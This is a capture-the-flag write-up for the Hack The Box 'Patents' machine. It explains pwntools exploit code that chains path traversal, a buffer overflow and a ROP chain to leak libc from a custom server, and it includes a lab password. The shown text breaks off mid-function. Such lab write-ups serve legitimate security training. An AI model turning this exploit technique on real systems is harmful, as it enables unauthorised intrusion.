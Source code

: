 ### Exploitation
The exploit will be developed using python3 with `pwntools (4.1.0)`. This whole section will be an explaination of the key-elements of the exploit code. The complete code can be found on my [Github](https://github.com/chr0x6eos/HTB/blob/master/Patents/root.py).

#### Overflowing the buffer
My initial plan of using `/dev/null` as the file the read did not work. After a hint from the forum, I tried using `/proc/sys/kernel/randomize_va_space`. As most systems usually have ASLR enabled, the MD5-sum should match with the one from my machine.

```python
def overflow(FILE="/proc/sys/kernel/randomize_va_space"):
    payload = "../../../../../.."# "%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e"
    payload = urlencode(payload)
    payload += FILE
    payload += "%x" # Inject invalid character that will write null bytes
    payload += urlencode("A" * 106) #Overflow # "%41" * 106
    return payload, genMD5(FILE)
```
The `overflow` function generates and returns a payload to overflow the buffer, as well as the `md5sum` of the file used.

#### Generating the requests
```python
def genReq(payload):
    junk, md5 = overflow(FILE)
    request = "CHECK /{JUNK}{PAYLOAD} LFM\r\nUser=lfmserver_user\r\n".format(JUNK=junk,PAYLOAD=urlencode(payload,True))
    request += "Password=!gby0l0r0ck$$!\r\n\r\n{md5}\n".format(md5=md5)
    return request
```
The `genReq` function calls the overflow function and generates a valid request with the inputted payload to exploit the binary.

The payload is `URL-encoded` using the previously mentioned function from GitHub.
```python
def urlencode(data, bytes=False):
    if bytes: # Don't use ord if already bytes
        return "".join("%{0:0>2}".format(format(c, "x")) for c in data)
    else:
        return "".join("%{0:0>2}".format(format(ord(c), "x")) for c in data)
```

#### Leaking libc-base
```python
def leak(fd):
    try:
        io = start()
        log.info("Trying fd: %d" % fd)
        rop = ROP([binary])

        # call write(fd, dup2@got, 8);
        rop.raw(pop_rdi)
        rop.raw(fd)
        rop.raw(pop_rsi)
        rop.raw(binary.got['dup2']) # function to leak, can be any function
        rop.raw(0x0) # for r15
        rop.raw(nop)
        # rdx is 8
        rop.raw(binary.symbols['write'])

        io.sendline(genReq(bytes(rop)))

        # Recv junk
        io.recvuntil("Size: 32",timeout=3)
```